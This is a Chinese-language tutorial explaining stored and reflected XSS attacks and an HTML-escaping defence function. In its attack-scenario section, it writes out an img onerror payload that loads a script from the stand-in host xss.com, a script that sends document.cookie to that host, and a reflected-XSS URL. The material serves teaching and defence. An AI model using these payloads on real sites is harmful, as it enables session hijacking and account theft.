 ## XSS(Cross-Site Scripting)
`xss`攻击中文名叫做跨站脚本攻击，其中两个关键词，一个是`跨站`, 一个是`脚本`。 `跨站`意味着攻击者在别的主机上进行了某些操作，然后另一个主机上的用户在不知觉的情况下发生了不知情的意料之外的事。也中模式决定了攻击只可能发生在动态网站上，纯静态的网站无法被攻击。`脚本`意味着客户端的代码遭到了篡改或者注入。因此，防范`xss`攻击的方法就是两种：
  1. 网站做成纯静态的。
  2. 防止代码的注入或者串改。

显而易见，第一种方法是不合实际的。那么就需要在第二种方案上下功夫。

### 攻击场景
假设你是一个黑客，你发现网站A上有一个提交评论的输入框。如下图：
![xss](./images/xss_input.jpg)

这时候你输入了这么一段代码：
```html
<img
onerror="s=createElement('script');body.appendChild(s);s.src='//xss.com/xss.js';" src="nothing">
```
然后你在`xss.com`的网站下放了这么一个`xss.js`的文件
```js
  (function () {
    const cookie = document.cookie
    const image = new Image()
    image.src = `//xss.com/getCookie?cookie=${cookie}`
  })()
```
假设一个网站A的正常用户访问了展示评论列表的页面时，如果你在评论框里输入的内容没有经过过滤就直接展示的情况下。那么就会在评论列表页插入一个`img`标签，由于这个`img`的`src`指向的是一个无效的地址，那么就会触发`onerror`事件，从而去加载`xss.com/xss.js`文件。而`xss`干的事就是将你的`cookie`发送到指定的网站。从而完成一次`xss`攻击。

黑客拿到了你的`cookie`就可以通过这个`cookie`访问你在A网站的账号，从而盗取信息。

### `xss`攻击类型
`xss`攻击主要有两种类型
- 存储型攻击
- 反射性攻击

上面那个场景说的就是存储新攻击，攻击者将恶意的脚本通过提交评论等途径存储到服务器，当某个用户访问页面时，如果该页面的信息是从存储了恶意代码的数据库里拉取的，便有可能发生`xss`攻击。反射性攻击主要做法是将脚本代码加入URL地址的请求参数里，比如：
```
http://xss.demo?a=<script>alert(document.cookie)</script>
```
如果一个页面里的脚本会去解析`URL`里的数据，并不做过滤进展示在页面，便会发生以上攻击。

### 防范
防范`xss`攻击的主要方式就是对特殊字符进行过滤。无论是在用户输入还是在页面展示时都进行过滤。当然你也可以设置一些白名单，对某些信任的内容不进行过滤。比如你可以这样对内容进行过滤：
```js
function xssFilter(str) {
  const escapeMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '`': '&#x60;'
  }
  const keysReg = new RegExp(Object.keys(escapeMap).join('|'), 'g')
  return str.replace(keysReg, key => escapeMap[key])
}
```
